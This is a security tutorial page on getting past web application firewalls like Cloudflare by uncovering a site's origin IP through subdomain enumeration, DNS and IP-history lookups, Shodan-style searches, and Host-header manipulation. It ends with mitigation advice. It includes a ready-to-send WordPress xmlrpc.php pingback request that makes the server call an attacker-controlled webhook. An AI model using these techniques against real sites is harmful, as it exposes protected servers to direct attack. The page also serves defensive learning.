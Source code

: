 ```yaml
---
title: Firewall Bypassing - Databased Index
permalink: /waf-bypassing
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">
<link rel="stylesheet" type="text/css" href="css/font.css">
<link rel="stylesheet" type="text/css" href="css/posts.css">

#### <ins>Vuln Type: Information Disclosure (CWE-200)</ins>

### What is a firewall?
Firewalls, or WAFs ___(Web Application Firewall)___, are filters and rules of access that serve as a sort of "gateway" to keep your website secure. Basically keeping your website safe from threats and potential vulnerabilities that could be easily exploited if you otherwise didn't have a WAF. 

The most commonly used WAF is Cloudflare, for being easy to setup and maintain. But Cloudflare isn't all that secure as people may think and your common _"top 10 best firewalls to keep your website secure"_ may suggest.

Since it is one of the easiests WAFs to setup, it is also one of the easiests WAFs to bypass if you don't know how to setup your website correctly or you just don't have full access to the things you are managing on your website, which, in most cases, can paint a bright red target on your website's back.

### What are you looking for when bypassing a firewall?

A subdomain that's not being tunnelled through the WAF or the ___origin IP___ of the website, aka: the IP behind the firewall.

The firewall itself might have its own IP, which is the case for Cloudflare. The firewall's IP is not directly accessible.

### What can a bypass leave you vulnerable to?
It depends on how much information an attacker has on your website, if they already have found a potential vulnerability and the depth of understanding they may have on your website

This can vary from a simple XSS to a full blown Remote Code Execution vulnerability.

But anyway, you're probably not here to read my personal comments on firewalls and how they can give you a false sense of security at times.

Usually the only thing stopping an attacker from gaining complete access to your website is the firewall, which if not setup correctly, can be just a glass door waiting for a brick to be thrown through it.

So,
### How to bypass WAFs?

There are multiple ways to do that, and all of them are pretty easy, given the right conditions (which are usually the case).

#### <ins>Subdomain Method</ins>

This is the easiest one since it doesn't even involve interacting directly with the target, but instead just enumerating all of the target's subdomains, along with their IP addresses. In most cases, the website will just have an unprotected IP that can be accessed directly with no real issue

|Resources|Status|Price|
|---------|------|-----|
|[subdomainfinder.c99.nl](https://subdomainfinder.c99.nl/)|✅UP|Free|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|
|[Anubis (tool)](https://github.com/jonluca/Anubis)|✅UP|Free|

In some cases the server will be setup in such a way that even if the unprotected IP is accessed directly, it will still show different results from the target. In such occasions, it ___might___ mean that the IP is being shared with other hosts.
In case of the IP being shared, the discrepancy in results can be easily circumvented by setting your Host request headers as the website's URL and not the IP itself.

FOR THE SITUATION DESCRIBED ABOVE, instead of doing:
```
POST /  HTTP 1.1
Host: <Target Unprotected IP>
```

Do

```
POST /  HTTP 1.1
Host: <Target URL(Without HTTPS)>
```

That way the IP can still be accessed directly if you search it up in your searchbar, but the server will be receiving requests for the protected URL instead, thus not only rendering the website's content but also verifying that the IP in fact belongs to that URL.

___PS: The IP you search up in the searchbar has to be linked to the URL you set in the "Host" header for the contents to load, since that's how the server distinguishes what website is being requested from the shared IP___

#### <ins>DNS Record Method</ins>
When looking for IPs and unprotected subdomains, it's also important to look for IPs or domains listed mainly in **MX** and **TXT** records.

|Resources|Status|Price|
|---------|------|-----|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[dig](https://command-not-found.com/dig)|COMMAND|Free|

#### <ins>IP History Method</ins>
This method is also pretty easy. You can just get a list of the IPs that were used by the website along time. 

|Resources|Status|Price|
|---------|------|-----|
|[viewdns.info](https://viewdns.info/)|✅UP|Free|


#### <ins>Forensics Search Method</ins>
This basically involves searching up the domain on the following websites.  

|Resources|Status|Price|
|---------|------|-----|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|

#### <ins>XMLRPC.php Method (Wordpress exclusive)</ins>
If the target uses Wordpress, it is also very likely to have XMLRPC enabled. (In some cases it doesn't tho, so that's when the rest of the things earlier apply).

To bypass a WAF protecting a wordpress domain, the following method is followed:

```
POST /xmlrpc.php HTTP/1.1
Host: TARGET_URL
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>WEBHOOK_UNIQUE_URL</string>
  </value>
 </param>
 <param>
  <value>
   <string>VALID_POST_FROM_TARGET</string>
  </value>
 </param>
</params>
</methodCall>
```

This is an old one but incredibly still effective!

What the attacker does is basically:

> Replace the ```TARGET_URL``` with the url of the website.

> Replace ```WEBHOOK_UNIQUE_URL``` with a webhook that will be used to catch the pingback response

> Replace ```VALID_POST_FROM_TARGET``` with a post that's been made on the website

> I.E: https://example.com/2025/03/10/is-a-nuclear-powered-marine-sector-a-possibility/

|Resources|Status|Price|
|---------|------|-----|
|[webhook.site](https://webhook.site/)|✅UP|Free|

#### <ins>Fingerprinting WAFs</ins>
Fingerprinting a WAF can be done in some ways, but the main ones are by using automation tools or manually.

Doing it manually requires you to analyze the behavior of the website to certain actions you take in it, such as trying to XSS an input field or uploading a malicious file. Also analyzing response headers and cookies for clues. 

Cloudflare can be easily spotted because of the custom 'cf-*' headers it sets.

Automation tools:

|Resources|Status|Price|
|---------|------|-----|
|[SuIP.biz](https://suip.biz/)|✅UP|Free|
|[Wappalyzer](https://www.wappalyzer.com/)|✅UP (Add-On)|Free|
|[Wafw00f](https://github.com/EnableSecurity/wafw00f)|✅UP|Free|
|[Nikto](https://github.com/sullo/nikto)|✅UP|Free|

#### <ins>Mitigating Attacks</ins>
To avoid getting your website's origin IP leaked, here are some steps you could take:

- Make sure to tunnel all subdomains through your WAF.
- Do not set your website's IP as an MX IP, instead use other mailing services as MX records cannot be proxied.
- Make sure that if/when the Origin IP leaks, your code is secure enough to handle input tampering.
- Setup your server in a way that forbids a client to connect directly to the IP, hitting the client with either a 403 status or a redirect to the main page.
- Check if the 'Host' header and the requested base URL match.
- Set the backend to only accept requests from the main website. This can be done via CORS.
